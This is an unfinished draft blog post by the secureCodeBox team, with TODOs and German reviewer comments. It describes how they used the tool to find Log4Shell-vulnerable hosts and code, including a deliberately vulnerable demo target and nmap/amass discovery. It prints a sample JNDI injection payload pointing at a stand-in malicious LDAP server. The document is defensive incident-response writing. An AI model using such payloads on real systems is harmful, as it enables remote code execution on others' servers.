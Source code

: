 ```yaml
---
# SPDX-FileCopyrightText: 2021 iteratec GmbH
#
# SPDX-License-Identifier: Apache-2.0

title: How We Used secureCodeBox In Our Log4Shell Incident Response
author: The secureCodeBox Team
author_title: Core Developer  # TODO: What do we put here? The names of everyone who contributed to the blog post?
author_url: https://github.com/secureCodeBox
author_image_url: https://avatars.githubusercontent.com/u/34573705?v=4
tags:
  - secureCodeBox
  - case study
  - incident response
  - SAST
  - DAST
  - cascading scans
  - Log4Shell
  - Log4J
description: We describe how the secureCodeBox allowed us to rapidly respond to the Log4shell vulnerability.
image: /img/blog/2021-10-27-magnifyingglass.jpg  # TODO Replace picture
---
```


![A magnifying glass pointed at a laptop keyboard](/img/blog/2021-10-27-magnifyingglass.jpg)

Cover photo by [Agence Olloweb](https://unsplash.com/@olloweb) on [Unsplash](https://unsplash.com/photos/d9ILr-dbEdg).

Vorschlag fürs Foto: https://unsplash.com/photos/AXRYB88LAXs :)

By now, you must have heard about Log4Shell, the present that ruined Christmas for many developers and IT specialists, whether naughty or nice. 
This blog describes how we used the secureCodeBox in our incident response process at Iteratec.
   
<!--truncate-->

## A Brief Introduction To Log4Shell

But first, a small refresher: In late November 2021, A zero-day vulnerability in the massively popular Java logging library Log4J was discovered. It allowed attackers to remotely execute code through Java Naming Directory Index ([JNDI](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)) lookups to malicious LDAP servers: If an attacker can get the application to log a payload controlled by the attacker, like `{jndi:ldap//evil.ldap.server.adress/a}`, then the code hosted on the LDAP server would be loaded and executed by the program, effectively letting third parties take control of the Java Application and the server it's running on.
// Ich würde noch einen Link zu einer genaueren Erklärung von JNDI einfügen, entweder docs oder Wikipedia oder so. Hier würde auch dieses Bild gut passen (https://scr3.golem.de/screenshots/2112/log4shell/thumb620/log4j_attack.jpg) <-- Das ist CC BY-SA, was potentiell Lizenzkopfschmerzen macht
Ansonsten diese Artikel geht mehr ins Detail 
(https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/)

This vulnerability agitated the IT world. It received a CVE rating of 10/10, and even the German government issued a statement calling for immediate action and described the issue as "critical". This is due to two main reasons. First, the vulnerability was relatively simple for attackers to exploit. Second, it has remained undiscovered since 2013, affecting many services from AWS to Minecraft. So, in this case, ringing the alarm bells was more than justified.  

At Iteratec, as a software development company, we had to assess our security posture as well - for both the infrastructure that we were running for ourselves, as well as the software we develop for our customers.
In this blog post, we describe how we leveraged the secureCodeBox as part of our incident response.

## Finding Affected Infrastructure
TODO: Add brief intro here.

### Testing For Vulnerabilities

Soon after the Log4Shell vulnerability became publicly known, the community of the [nuclei](https://github.com/projectdiscovery/nuclei) scanner published a [scan template](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-44228.yaml) (the nuclei version of a scan rule, which describes declaratively how to test a host for the vulnerability) to detect the Log4Shell vulnerability.

This rule triggers a single HTTP request to the target with a single HTTP get request parameter set. The parameter includes the JNDI attack payload. The request also includes a large number of HTTP header each containing the same attack payload. If the server uses a vulnerable version of Log4j to log one of the parameters, the host will trigger a DNS lookup. Before the scan, nuclei registers a new endpoint on an [out-of-band (OOB) interaction service](https://github.com/projectdiscovery/interactsh), which will log all DNS lookup made to that unique domain name. Nuclei automatically confiures the JNDI attack payload to make the lookup on the domain name of the OOB endpoint. This gives a very effective way to discover the vulnerability with a very low chance for false positives.

Thought the false positive rate is very low, the detection rate can also be low, as the dynamic scans have to acutally trigger the service correctly by passing the right parameters (e.g. `?foo=bar&baz=${jdni...})`), finding and using the correct endpoint (e.g. `/api/user/login`) or including a valid user token & session to access a restricted endpoint. All these things are potentially required to detect Log4Shell via dynamic scanners. Hence, if the scans do not give any results, it does not necessarily mean that no Log4J bug is present, but it can at least rule out the easy-to-find cases.

To use the Nuclei template in the secureCodeBox, we...
TODO: Jannik, kannst du das noch ergänzen?

### Building A Demo Target
We needed a test target to validate that our scanners effectively detect a Log4j vulnerability. Fortunately, secureCodebox already has the ideal resource for this use case; a *demo target*.
We use demo targets in SCB to continuously test the functionality of our scanners during the development cycles. Our existing demo targets include the [bodgeit store](https://github.com/psiinon/bodgeit) and [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/).  
Integration tests are run against the demo targets during our CI/CD pipeline to spot any malfunctioning scanner.

Demo targets consist of a Kubernetes service containing a vulnerable application image.
Creating a new log4j demo target is a straightforward process. First, a vulnerable docker image is required. 
Luckily, an image has been [provided by the GitHub user 'christophetd'](https://github.com/christophetd/log4Shell-vulnerable-app).  
Second, we must create our [helm chart folder](https://github.com/secureCodeBox/secureCodeBox/tree/main/demo-targets/vulnerable-log4j/templates) using the same directory structure as the other demo targets and configure it to use the vulnerable log4j image. It is essential to [expose the demo target's service corresponding ports](https://github.com/secureCodeBox/secureCodeBox/blob/e4320e71f6c215213a91649a61cc361cf543d924/demo-targets/vulnerable-log4j/templates/deployment.yaml#L37-L40). In this case, it is port 8080. And then we are essentially done. All that is left now is to install the demo target in the preferred namespace, as shown below:  

```bash
# Install HelmChart (use -n to configure another namespace)
helm upgrade --install vulnerable-log4j ./demo-targets/vulnerable-log4j/ --namespace <NAMESPACE>
```

After using the demo target to validate that the scanner works, we then proceeded to run it against our own infrastructure.

### Finding Hosts

To scan for the Log4Shell vulnerabilities dynamically we first have to identify what to scan. Using the secureCodeBox we used the [cascading scanning mechanism](https://docs.securecodebox.io/docs/hooks/cascading-scans) to run an initial scan to discover scan target and use their result to automatically start scans for the identified targets. We used two different different discovery methods:
TODO: Do we want to give YAML versions of all of this so people can copy-paste more easily?

1. For hosts in the internal networks, we used the secureCodeBox `nmap` scanType to scan for hosts and open ports in our internal IP ranges (e.g. 10.42.0.0/16). Every port which nmap identified to be related to http(s) (which is generally the easiest protocol to scan for Log4Shell even thought it can also be exploitable via different protocols) was used as a target in a Log4Shell scans.
2. For publicly available hosts, we used the `amass` scanType to find subdomains for the list of domain names we own as a company. This outputs a list of a subdomains which we then use to automatically trigger `nmap` scans to find open http(s) ports for the actual Log4Shell vulnerability assessment.

After enumerating the targets, we triggered the actual Nikto scans using another cascading rule.

## Finding Affected Code
(As a software company, we not only have our own infrastructure, but we are also producing code that we need to check for vulnerabilities. We have already described how to do this in a previous blogpost, in this case we used rules developed by Kurt Boberg and shared on the semgrep slack. I'm not sure we actually need to go into great detail since it is pretty much identical to the previous blog post about SAST, so we may only need to highlight the differences if there are any, and I don't think there are.)

## Conclusion

(Conclusion goes here.)
We are looking forward to hearing your own stories and ideas for using secureCodeBox - [find us on Slack][scb-slack] or [GitHub][scb-repo] to get in touch.


[scb-slack]: https://join.slack.com/t/securecodebox/shared_invite/enQtNDU3MTUyOTM0NTMwLTBjOWRjNjVkNGEyMjQ0ZGMyNDdlYTQxYWQ4MzNiNGY3MDMxNThkZjJmMzY2NDRhMTk3ZWM3OWFkYmY1YzUxNTU%22
[scb-repo]: https://github.com/secureCodeBox/secureCodeBox/